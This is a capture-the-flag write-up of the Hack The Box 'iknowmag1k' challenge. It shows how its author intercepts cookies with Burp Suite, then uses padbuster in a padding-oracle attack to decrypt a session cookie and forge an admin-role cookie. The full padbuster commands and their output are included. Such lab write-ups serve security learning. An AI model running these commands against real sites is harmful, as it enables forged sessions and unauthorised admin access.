 # iknowmag1k challenge
## Walkthrough on how I did it.

**(The main goal: Can you get to the profile page of the admin?)**

**Step one - making an account and intercepthing what is going on**
I simply made a login and logged in while intercepting traffic using Burpsuite.
What I saw was while refreshing: docker.hackthebox.eu:PORT/profile.php - I saw 3 cookies:
Cookie	PHPSESSID	3ol2uopq472ov8sigsbmolh9b3
Cookie	__auc	68adfe0116782dca854895bb93b
Cookie	iknowmag1k	q1zsdM2WlN3WRjvJXs8OzbhE4lB5%2BmsmhPBv9cgeGjOKmUeXEsvCZw%3D%3D


This was the only thing the really stood out to me, since there was nothing else that seemed 'weird'.
After this I thought: "Hmmm, maybe I can decode this and find some sort of thing that can help me get to the admin page!"

**Step two - find out how to crack this cookie and figuring out what to do with it.**
So I googled for a bit and found out that this sort of cryptography is called oracle padding or something like that, and I quickly saw that it was possible to crack this with a tool called: 'padbuster'.
I googled padbuster and found some basic info on how to use this, and figured out I needed the PHPSESHSSID and the iknowmag1k cookie and the url.

$padbuster http://docker.hackthebox.eu:47167/profile.php q1zsdM2WlN3WRjvJXs8OzbhE4lB5%2BmsmhPBv9cgeGjOKmUeXEsvCZw%3D%3D --cookies "PHPSESSID=3ol2uopq472ov8sigsbmolh9b3;iknowmag1k=q1zsdM2WlN3WRjvJXs8OzbhE4lB5%2BmsmhPBv9cgeGjOKmUeXEsvCZw%3D%3D" 8 --encoding=0


And here is what I got: 


** Finished **
[+] Decrypted value (ASCII): {"user":"anders","role":"user"}


So I figured: "That's it! Now I just need to change the role from "user" to "admin", and then encode it again and send that as a response!"


So that is what I did:
$padbuster http://docker.hackthebox.eu:47167/profile.php q1zsdM2WlN3WRjvJXs8OzbhE4lB5%2BmsmhPBv9cgeGjOKmUeXEsvCZw%3D%3D --cookies "PHPSESSID=3ol2uopq472ov8sigsbmolh9b3;iknowmag1k=q1zsdM2WlN3WRjvJXs8OzbhE4lB5%2BmsmhPBv9cgeGjOKmUeXEsvCZw%3D%3D" 8 --encoding=0 --plaintext "{\"user\":\"admin\",\"role\":\"admin\"}"


Which gave me:
** Finished **
[+] Encrypted value is: LDRCU61StZbYrdIXPROTGIprI45i7IsYMAovrw2IGp8AAAAAAAAAAA%3D%3D
So I simply just changed the "iknowmag1k" cookie with the new one and then got the flag.
